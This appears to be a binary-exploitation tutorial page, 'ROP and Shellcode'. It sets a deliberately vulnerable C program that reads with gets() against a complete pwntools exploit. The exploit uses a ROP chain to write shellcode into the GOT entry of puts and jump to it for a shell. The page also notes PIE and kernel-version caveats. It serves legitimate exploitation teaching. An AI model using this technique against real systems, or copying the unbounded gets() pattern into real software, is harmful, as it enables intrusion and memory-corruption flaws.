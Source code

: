 # ROP and Shellcode

## Source

{% file src="../../../.gitbook/assets/reliable\_shellcode-32.zip" caption="Reliable Shellcode - 32-bit" %}

```c
#include <stdio.h>

void vuln() {
    char buffer[20];

    puts("Give me the input");

    gets(buffer);
}

int main() {
    vuln();

    return 0;
}
```

Super standard binary.

## Exploitation

Let's get all the basic setup done.

```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
p = process()
```

Now we're going to do something interesting - we are going to call `gets` again. Most importantly, we will tell `gets` to write the data it receives to a section of the binary. We need somewhere both readable and writeable, so I choose the GOT. We pass a GOT entry to `gets`, and when it receives the shellcode we send it will **write the shellcode into the GOT**. Now we know _exactly where the shellcode is_. To top it all off, we set the return address of our call to `gets` to where we wrote the shellcode, perfectly executing what we just inputted.

```python
rop = ROP(elf)

rop.raw('A' * 32)
rop.gets(elf.got['puts'])      # Call gets, writing to the GOT entry of puts
rop.raw(elf.got['puts'])       # now our shellcode is written there, we can continue execution from there

p.recvline()
p.sendline(rop.chain())

p.sendline(asm(shellcraft.sh()))

p.interactive()
```

### Final Exploit

```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
p = process()

rop = ROP(elf)

rop.raw('A' * 32)
rop.gets(elf.got['puts'])      # Call gets, writing to the GOT entry of puts
rop.raw(elf.got['puts'])       # now our shellcode is written there, we can continue execution from there

p.recvline()
p.sendline(rop.chain())

p.sendline(asm(shellcraft.sh()))

p.interactive()
```

## 64-bit

I wonder what you could do with this.

{% file src="../../../.gitbook/assets/reliable\_shellcode-64.zip" caption="Reliable Shellcode - 64-bit" %}

## ASLR

No need to worry about ASLR! Neither the stack nor libc is used, save for the ROP.

The real problem would be if PIE was enabled, as then you couldn't call `gets` as the location of the PLT would be unknown without a leak - same problem with writing to the GOT.

## Potential Problems

Thank to [**clubby789** ](https://clubby789.me/)and [**Faith** ](https://faraz.faith/)from the HackTheBox Discord server, I found out that the GOT often has _Executable_ permissions simply because that's the default permissions when there's no NX. If you have a more recent kernel, such as `5.9.0`, the default is changed and the GOT will not have X permissions.

As such, if your exploit is failing, run `uname -r` to grab the kernel version and check if it's `5.9.0`; if it is, you'll have to find another RWX region to place your shellcode \(if it exists!\).

